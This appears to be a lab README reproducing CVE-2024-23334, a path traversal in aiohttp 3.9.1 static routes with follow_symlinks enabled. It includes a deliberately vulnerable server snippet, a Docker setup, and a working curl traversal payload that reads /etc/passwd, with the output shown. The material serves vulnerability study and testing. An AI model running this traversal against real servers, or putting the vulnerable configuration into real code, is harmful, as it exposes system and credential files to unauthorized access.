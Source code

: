 # aiohttp 3.9.1 static routes `follow_symlinks` Path Traversal (CVE-2024-23334)

[中文版本(Chinese version)](README.zh-cn.md)

aiohttp is an asynchronous HTTP client/server framework for asyncio and Python.
When using aiohttp as a web server and configuring static routes, it is necessary to specify the root path for static files.
Additionally, the option `follow_symlinks` can be used to determine whether to follow symbolic links outside the static root directory.
When `follow_symlinks` is set to `True`, there is no validation to check if reading a file is within the root directory.
This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present.
Disabling follow_symlinks and using a reverse proxy are encouraged mitigations. Version 3.9.2 fixes this issue.

Reference:

- https://github.com/aio-libs/aiohttp/commit/1c335944d6a8b1298baf179b7c0b3069f10c514b
- https://github.com/aio-libs/aiohttp/pull/8079
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/ICUOCFGTB25WUT336BZ4UNYLSZOUVKBD/
- https://lists.fedoraproject.org/archives/list/package-announce@lists.fedoraproject.org/message/XXWVZIVAYWEBHNRIILZVB3R3SDQNNAA7/

## Environment Setup

Vulnerable code

```python
# examples/server_simple.py
from aiohttp import web

app = web.Application()
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])

if __name__ == '__main__':
    web.run_app(app)

# 访问 https://www.jetbrains.com/help/pycharm/ 获取 PyCharm 帮助

```

Execute following commands to start an aiohttp:3.9.1 ：

```
docker compose up -d
```

## Exploit

```bash
➜  CVE-2024-23334 git:(master) ✗ curl --path-as-is http://172.17.0.2:8080/static/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

```
